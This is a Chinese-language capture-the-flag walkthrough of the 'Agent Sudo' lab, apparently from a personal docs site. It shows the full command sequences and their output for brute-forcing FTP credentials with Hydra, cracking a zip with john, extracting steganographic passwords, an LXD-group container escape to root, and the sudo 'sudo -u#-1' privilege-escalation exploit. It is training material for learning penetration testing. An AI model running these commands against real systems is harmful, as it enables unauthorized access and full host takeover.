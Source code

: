 ```yaml
---
sidebar_position: 10
tags: [Easy, Linux, 信息泄露, 密码破解-账号, 隐写术, 密码学, lxd 用户组, SUDO]
title: Agent Sudo
sidebar_label: Agent Sudo
---
```

# Agent Sudo
## 端口扫描
```bash
root@ip-10-10-168-203:~# rustscan -a 10.10.218.9 -u 5000 -t 1000 -p 21,22,80 -- -sTCV
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - HTTP
![20240527112322](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112322.png)

根据内容我们需要在 User-agent 指定自己的代号来作为一个知识， 我们先使用 R 来测试

![20240527112331](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112331.png)

我们使用 Burp 抓包进行枚举， 发现几个异常之处

![20240527112355](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112355.png)

我们使用 C  来访问， 发现

![20240527112405](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112405.png)

:::note[收集信息]
- 一个用户 ： chris
- 弱密码
- 让我们告诉特工 J  的内容， 但是当 user-agent 为 J  时， 并没有什么输出
:::

## FTP
使用获取到的信息破解 FTP 账号
```bash
root@ip-10-10-168-203:~# hydra -l chris -P `locate rockyou.txt` ftp://10.10.218.9
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-08-03 04:14:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.218.9:21/
[21][ftp] host: 10.10.218.9   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-08-03 04:15:56
```

![20240527112508](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112508.png)

我们将其下载本地， 从 txt 文件中， 我们知道密码隐写在图片中

我们使用 binwalk 查看这个对应的图片， 我们发现一个 txt 文件， 我们将其提取出来

![20240527112525](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112525.png)

但是这个对应的 To_agentR.txt 文件为空， 我们又发现一个 8702.zip 文件， 发现其中压缩的正是 To_agentR.txt  我们将其解压获取， 但是需要密码

![20240527112536](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112536.png)

我们使用 john 进行密码破解
```bash
root@ip-10-10-168-203:~/_cutie.png.extracted# zip2john 8702.zip  > hash.txt
root@ip-10-10-168-203:~/_cutie.png.extracted# john hash.txt --wordlist=`locate rockyou.txt`
Warning: detected hash type "ZIP", but the string is also recognized as "ZIP-opencl"
Use the "--format=ZIP-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:02 DONE (2023-08-03 04:30) 0.3676g/s 9035p/s 9035c/s 9035C/s merlina..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

解压我们的文件获取目标文件

```bash
root@ip-10-10-168-203:~/_cutie.png.extracted# cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
看了 WP   后发现这是一个 base64 加密内容

![20240527112609](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112609.png)

我们使用这个密码作为提取另一个图片信息的密码

![20240527112621](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112621.png)

```bash
root@ip-10-10-168-203:~# cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

## 后渗透
### james

![20240527112646](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112646.png)

### james --> root

我们执行 `sudo -l` 发现其特殊权限

![20240527112705](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112705.png)

<details>

    <summary>💡 思路一</summary>

    我们可以发现用户是一个 lxd 组用户

    ![20240527112748](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527112748.png)

    我们可以下载对应 payload 进行执行

    ```bash
    root@ip-10-10-168-203:~# git clone https://github.com/saghul/lxd-alpine-builder.git
    Cloning into 'lxd-alpine-builder'...
    remote: Enumerating objects: 50, done.
    remote: Counting objects: 100% (8/8), done.
    remote: Compressing objects: 100% (6/6), done.
    remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
    Unpacking objects: 100% (50/50), done.
    root@ip-10-10-168-203:~# cd lxd
    bash: cd: lxd: No such file or directory
    root@ip-10-10-168-203:~# cd lxd-alpine-builder/
    root@ip-10-10-168-203:~/lxd-alpine-builder# ls
    alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
    ```
    将其上传到目标进行执行

    ```bash
    james@agent-sudo:/tmp$ wget http://10.10.168.203:8000/lxd-alpine-builder/alpine-v3.13-x86_64-20210218_0139.tar.gz
    --2023-08-03 04:18:07--  http://10.10.168.203:8000/lxd-alpine-builder/alpine-v3.13-x86_64-20210218_0139.tar.gz
    Connecting to 10.10.168.203:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3259593 (3.1M) [application/gzip]
    Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

    alpine-v3.13-x86_64-20210218_0139.t 100%[================================================================>]   3.11M  --.-KB/s    in 0.01s   

    2023-08-03 04:18:07 (276 MB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

    james@agent-sudo:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
    If this is your first time running LXD on this machine, you should also run: lxd init
    To start your first container, try: lxc launch ubuntu:18.04

    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    james@agent-sudo:/tmp$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Aug 3, 2023 at 4:18am (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    james@agent-sudo:/tmp$ lxc storage create my-storage-pool dir
    Storage pool my-storage-pool created
    james@agent-sudo:/tmp$ lxc init myimage ignite -c security.privileged=true -s my-storage-pool
    Creating ignite

    The container you are starting doesn't have any network attached to it.
    To create a new network, use: lxc network create
    To attach a network to a container, use: lxc network attach

    james@agent-sudo:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to ignite
    james@agent-sudo:/tmp$ lxc start ignite
    james@agent-sudo:/tmp$ lxc exec ignite /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt
    /mnt # ls
    root
    /mnt # cd root
    /mnt/root # ls
    bin             etc             lib             mnt             run             swap.img        var
    boot            home            lib64           opt             sbin            sys             vmlinuz
    cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
    dev             initrd.img.old  media           root            srv             usr
    ```

</details>


<details>

    <summary>💡 思路二</summary>

    发现对应的 sudo 存在权限提升漏洞

    ```bash
    james@agent-sudo:/tmp$ sudo -V
    Sudo version 1.8.21p2
    Sudoers policy plugin version 1.8.21p2
    Sudoers file grammar version 46
    Sudoers I/O plugin version 1.8.21p2
    james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash -p
    [sudo] password for james: 
    root@agent-sudo:/tmp# id
    uid=0(root) gid=1000(james) groups=1000(james)
    ```

</details>